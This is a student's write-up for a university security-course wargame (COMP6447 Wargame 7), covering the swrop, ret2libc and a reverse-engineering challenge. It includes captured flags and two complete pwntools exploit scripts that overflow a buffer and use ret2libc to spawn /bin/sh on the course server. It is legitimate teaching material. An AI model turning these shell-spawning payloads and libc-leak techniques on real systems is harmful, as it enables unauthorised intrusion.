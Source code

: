 # COMP6447 Wargame 7
Written by WENG XINN CHOW(z5346077) on 18.07.2022

swrop
===========================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiNi1zd3JvcCIsImlwIjoiMTAzLjIxNi4xOTAuMzciLCJzZXNzaW9uIjoiODFiZDE1NWYtNTcxNi00NGJjLTgwYmItZTMzYjE3NjBmMjRiIn0.5CLAHKcrpBshNtiUete5JDAdATOZ6bvxThTqIhWKyB8}

General overview of problems faced
-------------------------------------
1. Had to find  the offset of the return  address using ```cyclic```.
2. Had to understand ret2libc, which is ```system('/bin/sh')```. Therefore, after fnding the return address of ```system```, I had to figure out the  ```/bin/sh``` address in the binary. 
3. The final payload will be bunch of A's to overwrite the  return  address, followed by the ```system``` and ```/bin/sh``` addresses.

Script/Command used
------------------
```
from pwn import *

host = "comp6447.wtf"
port =  26332
p = remote(host, port)

# p = process("./swrop")

p.recvline()

offset = 136

system = 0x8048390
# binsh = next(libc.search(b'/bin/sh'))
# print(binsh)
binsh = 0x080485f0

payload = b'A' * offset
payload += p32(system)
payload += b'A' * 4
payload += p32(binsh)
# print(payload)
# gdb.attach(p)

p.sendline(payload)

p.interactive()
```
ret2libc
===========================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiNi1yZXQybGliYyIsImlwIjoiMTAzLjIxNi4xOTAuMzciLCJzZXNzaW9uIjoiOTk1YTljMjUtZDBhZi00Y2I1LWJiZWQtMjhmNWY1NzQ4ZDZmIn0.EUuB3uy-xVxzjR3T09eRj_jdrBVTVoMdVBxNOJEiyW0}

General overview of problems faced
-------------------------------------
1. Had to find  the offset of the return  address using ```cyclic```.
2. Had to store the leaked libc address for ```setbuf``` function in the binary.
3. Since the libc version is known, we can find the address of the  libc address  for  ```setbuf``` in the libc version and then use the leaked addressed to subtract by this address to get the libc base address.
4. Once I got the libc base address, I was able to find the address of ```system``` and ```/bin/sh``` in the binary.

Script/Command used
------------------
```
from pwn import *

# p = process("./ret2libc")
# libc = ELF("/lib/i386-linux-gnu/libc.so.6", checksec=False)

host = "comp6447.wtf"
port = 29471 
p = remote(host, port)

libc = ELF("./libc-2.27.so")

p.recvuntil(b'- ')
libc_leak = int(p.recvuntil(b' ')[:-1], 16)

log.info(f"libc leak:  {hex(libc_leak)}")
libc.address = libc_leak - libc.symbols['setbuf'] #  libcbase = libcbase + setbuf - setbuf
log.info(f"libc base: {hex(libc.address)}")

offset = 1230
payload = b'A' * 1230
payload += p32(libc.symbols['system'])
payload += b'A' * 4 # argument
payload += p32(next(libc.search(b'/bin/sh')))
# gdb.attach(p)

p.sendline(payload)

p.interactive()
```

re challenge
=============
General overview of problems faced
-------------------------------------
1. Had to study memory allocation in C. 
```C
int new() { 
    int a = 0;
    int i = 0;

    while(i <= 9){
        int *b = malloc(sizeof(int));
        if (*b != 0){
            if(a != 0){
                *b = 0;
            };
            a = *b;
        }
        else{
            break;
        };
        i++;
    };
    return a;
}
```